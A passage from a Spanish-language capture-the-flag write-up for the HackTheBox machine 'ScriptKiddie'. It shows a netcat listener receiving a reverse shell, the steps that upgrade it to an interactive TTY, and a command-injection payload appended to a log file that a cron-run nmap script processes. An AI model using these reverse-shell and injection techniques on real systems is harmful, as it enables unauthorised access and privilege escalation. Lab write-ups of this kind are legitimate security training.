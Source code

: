 Al utilizar la herramienta vulnerable, finalmente comprobamos que hemos ganado acceso al sistema a través del usuario `kid` y podemos visualizar la flag **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.226] 48646
bash: cannot set terminal process group (891): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ cat /home/kid/user.txt
16c4a***************************
```

Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
kid@scriptkiddie:~/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
kid@scriptkiddie:~/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
kid@scriptkiddie:~/html$ export TERM=xterm
kid@scriptkiddie:~/html$ export SHELL=bash
kid@scriptkiddie:~/html$ stty rows 46 columns 230
```

## Pivoting to pwn

### Abusing Logs + Cron Jonb (Command Injection)

Realizando enumeración en el directorio `/home`, nos encontramos con el directorio personal de un nuevo usuario llamado `pwn`. Este directorio contenía otro directorio llamado `recon` el cual no disponíamos de acceso y de un script llamado `scanlosers.sh` el cual no podíamos ejecutar pero si visualizar su contenido.

El script extrae direcciones IP de un archivo de logs, elimina duplicados y escanea los 10 puertos más comunes con Nmap, guardando los resultados en `recon/{IP}.nmap`. Luego, si el log tiene contenido, lo vacía.

#### Posible **Command Injection**

La línea `while read ip; do sh -c "nmap ... ${ip}" & done` usa `sh -c`, lo que permite ejecución de comandos si `$log` contiene una entrada manipulada, como:

```bash
echo "malicious_ip; whoami" >> /home/kid/logs/hackers
```

Si el script lo procesa, ejecutará `whoami`.

```bash
kid@scriptkiddie:/home/pwn$ ls -l
total 8
drwxrw---- 2 pwn pwn 4096 Mar  2 16:20 recon
-rwxrwxr-- 1 pwn pwn  250 Jan 28  2021 scanlosers.sh
kid@scriptkiddie:/home/pwn$ ./scanlosers.sh
bash: ./scanlosers.sh: Permission denied

kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
```